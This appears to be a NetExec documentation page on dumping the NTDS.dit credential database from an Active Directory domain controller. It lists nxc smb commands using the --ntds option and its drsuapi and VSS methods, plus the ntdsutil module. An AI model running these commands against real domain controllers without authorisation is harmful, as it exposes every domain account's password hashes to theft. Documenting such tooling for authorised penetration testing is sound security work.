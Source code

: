 # Dump NTDS.dit

### Dump the NTDS.dit from target DC using methods from secretsdump.py

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```bash
2 methods are available:   
(default) 	drsuapi -  Uses drsuapi RPC interface create a handle, trigger replication, and combined with   
						additional drsuapi calls to convert the resultant linked-lists into readable format  
			vss - Uses the Volume Shadow copy Service  
```

```bash
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds --users
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds --users --enabled
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds vss
```

{% hint style="info" %}
You can also DCSYNC with the computer account of the DC
{% endhint %}

There is also the ntdsutil module that will use ntdsutil to dump NTDS.dit and SYSTEM hive and parse them locally with secretsdump.py&#x20;

```bash
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' -M ntdsutil
```

Remember to play this music everytime you got DA

{% embed url="https://www.youtube.com/watch?v=SyjUwhBYa6Q" %}
